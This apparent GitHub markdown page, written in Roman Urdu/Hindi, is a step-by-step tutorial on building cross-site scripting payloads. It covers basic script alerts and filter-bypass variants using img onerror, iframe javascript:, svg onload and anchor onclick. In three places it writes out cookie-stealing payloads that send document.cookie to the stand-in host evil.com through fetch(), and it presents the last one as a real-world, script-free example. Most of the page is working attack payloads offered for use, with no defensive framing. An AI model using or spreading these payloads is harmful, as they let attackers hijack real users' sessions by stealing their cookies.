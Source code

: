# 💣 XSS Payload Banana – Step by Step

🔹 Step 1: Start karo <script> tag se

Yeh browser ko batata hai ke ab JavaScript chalne wali hai.

**<script>**

🔹 Step 2: JavaScript code likho uske andar

Sabse simple payload hota hai **alert('XSS')** — isse popup aata hai.

**<script>
alert('XSS');
</script>**

🔹 Step 3: End karo </script> se

Yeh batata hai ke JavaScript ka block khatam ho gaya.

---

### ✅ Final Payload:

**<script>alert('XSS');</script>**

---

### 🔥 Advanced Payload Example:

Agar tum cookie nikalna chahte ho:

**<script>
fetch("https://evil.com/steal?c=" + document.cookie);
</script>**

Yahan:

document.cookie → user ki cookie le raha hai

fetch() → us cookie ko attacker ki site par bhej raha hai

---

### ⚠️ Bonus Tip:

Kayi websites <script> block karti hain. Tab tum alternate technique use karte ho:

**<img src=x onerror=alert('XSS')>**

Yahan:

**<img>** toh allow hai

**onerror** JavaScript chala deta hai jab image load na ho

# 🔰 1. <img> tag ke saath XSS Payload

**<img src="x" onerror="alert('XSS')">**

### ✅ Kya ho raha hai?

**src="x"** → image load nhi ho paayi

**onerror="..."** → jab error aaya toh JavaScript chali

Isme " quotes use hue hain attribute values ke liye

Aur 'XSS' single quotes alert ke message mein

---

### 🔰 2. <iframe> tag ke saath XSS Payload

**<iframe src="javascript:alert('XSS')"></iframe>**

Kuch browsers allow nhi karte, lekin testing ke liye useful hai

---

### 🔰 3. <svg> + onload

**<svg onload="alert('XSS')"></svg>**

svg graphics ke liye hota hai, lekin onload ke through JavaScript chala sakte ho

---

### 🔰 4. Anchor Tag <a> with onclick

**<a href="#" onclick="alert('XSS')">Click me</a>**

Jab banda is link pe click kare, XSS payload trigger hoga

---

## 📌 "Double Quotes" aur 'Single Quotes' ka use:

Situation	Use

HTML attribute ke liye	"..." double quotes

JavaScript string ke liye	'...' single quotes ya double bhi chal jaata hai


Example:

```<img src="x" onerror="alert('Hello')">

**"x"** → image path```

---

**onerror="alert('Hello')"** → **outer quotes "..."** (HTML)

inner 'Hello' → (JavaScript)

---

### 📌 + ka use kab hota hai?

**+** ka use hota hai string concatenate karne ke liye JavaScript mein.
Matlab, do cheezein jorna.

Example:

**<script>
  fetch("https://evil.com/steal?cookie=" + document.cookie);
</script>**

**"https://..."** ek string hai

**document.cookie** second part

**+** dono ko jod raha hai

### Result: **https://evil.com/steal?cookie=abc123xyz** (cookie wali URL ban gayi)

---

### ✅ Real-World Example: Pure HTML Based XSS (no <script>)

```<img src="x" onerror="fetch('https://evil.com?c='+document.cookie)">```

---




